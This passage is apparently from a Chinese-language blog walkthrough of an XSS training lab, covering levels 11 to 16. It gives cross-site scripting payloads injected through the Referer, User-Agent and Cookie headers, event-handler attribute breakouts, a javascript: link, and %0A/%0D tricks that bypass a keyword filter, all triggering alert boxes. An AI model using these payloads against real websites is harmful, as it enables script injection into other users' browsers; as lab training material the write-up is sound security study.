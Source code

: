 [![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100208434-243405787.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100208434-243405787.png)

[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100230391-504132551.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100230391-504132551.png)

**分析：**根据返回的html判断refer字符为Web页面的自定义变量 可能存在XSS

**payload：利用BP或者Hackbar修改Referer的值 这里我使用的Hackbar**

　**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100701742-1793749579.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117100701742-1793749579.png)**

**Level12：user-agent信息**

**PS：**我与上一关相类似 只不过从Referer换成了user-agent

[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102420371-1920634695.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102420371-1920634695.png)

 [![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102441259-443455038.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102441259-443455038.png)

 **payload：**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102743779-1819066637.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117102743779-1819066637.png)**

**" type="text" onmouseover=alert('xss')//**

**" type="text" onmouseover="alert('xss')"**

**Level13：Cookie信息**

**PS：**与前两关相类似 只不过换成了Cookie

**payload：user=" type= "text" onclick="alert('xss')"**

**Level14：exif xss**

_**网上查找发现题有问题 此关略过**_

**Level15：ng-include属性**

**payload：'level1.php?name="><a href="javascript:alert(/xss/)">xss</a>'**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117111632992-522912868.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117111632992-522912868.png)**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117111700326-73594306.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117111700326-73594306.png)**

**Level16：%0A或%0D作为空格使用**

**空格、/、script都被str_replace函数替换成 了，但是在HTML中可以将%0a或者%0D当成空格使用**

**在keyword后面输入payload**

**payload：<a%0Ahref='javas%0Acript:alert("xss")'>xss  
**

　　　　　**<input%0Atype="text"%0Aonclick="alert('xss')">**
